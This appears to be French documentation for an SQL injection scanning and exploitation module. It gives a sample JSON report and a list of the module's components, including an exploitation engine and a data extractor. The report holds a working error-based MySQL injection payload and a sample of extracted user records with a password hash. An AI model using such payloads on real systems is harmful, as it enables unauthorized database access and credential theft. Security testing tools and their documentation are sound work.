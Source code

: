 ## Exemple de rapport

Le module SQLi génère des rapports détaillés dans différents formats :

```json
{
  "timestamp": "2023-06-30T15:45:12",
  "target": "https://exemple.com/page?id=1",
  "vulnerabilities": [
    {
      "type": "SQL_INJECTION",
      "parameter": "id",
      "method": "GET",
      "dbms": "mysql",
      "technique": "error_based",
      "payload": "1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND '1'='1",
      "proof": "Duplicate entry '5.7.341' for key 'group_key'",
      "severity": "high",
      "tables_found": ["users", "products", "orders"],
      "columns_found": {
        "users": ["id", "username", "password", "email", "role"]
      },
      "data_sample": {
        "users": [
          {"id": "1", "username": "admin", "password": "5f4dcc3b5aa765d61d8327deb882cf99", "email": "admin@exemple.com", "role": "administrator"}
        ]
      },
      "remediation": "Utiliser des requêtes préparées avec des paramètres liés"
    }
  ],
  "scan_details": {
    "params_tested": 3,
    "payloads_sent": 47,
    "scan_duration": "00:03:18",
    "dbms_details": {
      "type": "MySQL",
      "version": "5.7.34",
      "user": "www-data@localhost",
      "current_db": "app_db"
    }
  }
}
```

## Architecture interne

Le module SQLi est composé de plusieurs sous-composants spécialisés :

1. **Détecteur d'injection** : Identifie les points vulnérables aux injections SQL
2. **Analyseur DBMS** : Détermine le type et la version du système de base de données
3. **Moteur d'exploitation** : Exploite les vulnérabilités en utilisant diverses techniques
4. **Extracteur de données** : Récupère les schémas, tables, colonnes et données
5. **Générateur de payloads** : Crée des payloads adaptés au DBMS ciblé
6. **Générateur de rapports** : Produit des rapports détaillés sur les vulnérabilités

